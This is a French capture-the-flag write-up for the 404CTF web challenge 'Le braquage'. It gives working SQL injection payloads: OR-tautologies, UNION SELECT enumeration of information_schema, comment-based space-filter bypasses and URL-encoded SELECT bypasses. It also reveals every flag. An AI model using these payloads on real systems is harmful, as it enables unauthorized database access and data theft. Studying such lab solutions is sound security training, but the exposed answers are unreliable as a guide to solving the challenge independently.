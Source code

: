 Le braquage

UTILISER SQLMAP SUR CE CHALLENGE-CI OU TOUT AUTRE CHALLENGE CONDUIRA A UN BAN

Vous êtes sur une affaire de cambriolage. D’après vos informations, un criminel surnommé TITI a prévu une rencontre avec ses complices pour préparer son prochain casse.

Heureusement, votre équipe est parvenu à trouver un site qu’ils utilisent. Ce site leur permet de communiquer et d’échanger des lieux de rendez-vous ainsi que des fausses identités. A vous d’exploiter cette base de données pour obtenir des informations sur le suspect et son opération : nom, prénom, adresse visée, date du casse, heure du casse, téléphone, mot de passe.

Les différents morceaux de flag sont sous la forme : 404CTF{Nom},404CTF{Prénom},404CTF{Adresse},404CTF{Date},404CTF{Heure},404CTF{Téléphone},404CTF{Mdp}

Le flag final est la concaténation de tous les morceaux sans espace : 404CTF{NomPrénomTéléphoneAdresseDateHeureMdp}

=======================================================================

On a trois pages du site, chacune avec son propre formulaire à injecter.



1 - Discuter avec des vendeurs d’OR près de chez vous
```
    Payload : ' OR '1'='1

    tel : 404CTF{0145769456}
    adresse : 404CTF{21 rue des kiwis}
```


2 - UNION des vendeurs d’OR de la région
```
    ' ORDER BY 2 -- - : OK
    ' ORDER BY 3 -- - : KO

    --> 2 colomnes

    ' UNION SELECT 1,schema_name FROM information_schema.schemata -- -

    --> 1	UnionVendeurs

    ' UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema='UnionVendeurs' -- -

    --> 1	Users
    --> 1	cooperatives

    ' UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name='Users' -- -

    --> 1	id
    --> 1	nom
    --> 1	prenom 

    Payload : ' UNION SELECT nom,prenom FROM Users -- -

    nom : 404CTF{Vereux}
    prenom : 404CTF{UnGorfou}
```


3 - Rencontrez des vendeurs et parler avec eux sans FILTRES

    On a un filtre sur les espaces.

    On bypass avec la technique de l'ouverture-fermeture de commentaires qui sont interprétés comme un espace :
```
    Payload : '/**/OR/**/'1'='1

    date : 404CTF{2022-07-14}
    heure : 404CTF{01hDuMatin}
```

3 Bis - Récupérer le mot de passe

    SELECT est filtré. On peut bypass en encodant le SELECT en URL et de même avec les espaces :

    `'%20UNION%20%53%45%4c%45%43%54%201,2,schema_name%20FROM%20information_schema.schemata%20--%20`

    Payload finale :
    
    
    '%20UNION%20%53%45%4c%45%43%54%201,%20id,%20mdp%20FROM%20Password%20--%20-

    mdp : 404CTF{GorfousAuPouvoir}
    

404CTF{VereuxUnGorfou014576945621ruedeskiwis2022-07-1401hDuMatinGorfousAuPouvoir}
